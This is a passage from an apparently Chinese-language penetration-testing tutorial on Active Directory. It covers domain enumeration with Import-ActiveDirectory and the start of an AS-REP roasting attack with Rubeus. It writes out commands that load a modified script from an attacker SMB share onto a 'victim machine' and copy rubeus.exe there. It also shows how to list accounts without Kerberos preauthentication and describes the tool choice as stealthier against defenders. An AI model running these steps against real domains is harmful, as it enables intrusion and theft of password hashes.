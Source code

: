 PowerView 和 Import-ActiveDirectory 之间的主要区别在于：Import-ActiveDirectory 被微软认为是合法的 PowerShell 模块，这使得它成为了攻击者执行域枚举的一种更为隐蔽的选择。

将 Import-ActiveDirectory.ps1 下载之后，我们可将以下命令附加到脚本的底部，以达到加载即运行的效果：

    echo $'\nImport-ActiveDirectory' >> Import-ActiveDirectory.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703406-1090781561.png)

然后在受害机器通过以下命令远程加载该脚本：

    . \\172.16.1.30\share\Import-ActiveDirectory.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703835-645190756.png)

现在，脚本已经被加载到了当前的会话中，接下来，我们就可以使用许多好用的 cmdlet 了。

> 注：不同脚本的加载方式和使用方式亦有所不同，因此需要仔细阅读说明文档。

> 有关 Import-ActiveDirectory 可用的所有 cmdlet 的列表，可参考["Windows Server 2022 and Windows 11 PowerShell"-ActiveDirectory-Commands](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) 命令手册。

在本例中，我们最感兴趣的 cmdlet 是 **Get-ADUser**。通过它，我们可以轻松找到那些 AS-REP 可烘烤用户，如下所示：

    Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true ' | select samaccountname
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702636-1818716564.png)

Amazing！这两个工具都输出了类似是的信息，并列出了域中所有 AS-REP 可烘烤的账户。

接下来，就让我们看看如何利用发现的 AS-REP 可烘烤账户去在本地发起 AS-REP 烘烤攻击。

**

6、AS-REP 烘烤攻击 – 本地

**
--------------------------

在确定用户 **vcreed** 是可烘烤用户之后，我们可以使用同一工具的两个不同版本 **Rubeus** 和 **Invoke-Rubeus** 对用户执行 AS-REP 烘烤攻击。

有趣的是，这些工具不需要知道禁用预身份验证的用户是谁便可以直接使用。这意味着我们可以跳过上一步，直接执行攻击。

然而，寻找 AS-REP 可烘烤用户仍是一个好习惯，这样可以建立一种有针对性的方法，让我们所做的一切都具有目的性，并避免我们把不必要的工具用在受害者身上。

#### **

6.1、Rubeus.exe

**

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) 是一种能在 AD 环境中非常轻松地执行 AS-REP 烘烤攻击的工具，只需一个命令，它便会识别、请求并提取域中所有 AS-REP 可烘烤用户的哈希值。

首先，我们需要获取 Rubeus 副本，并将其传输到受害者机器上：

    cp \\172.16.1.30\share\rubeus.exe .
    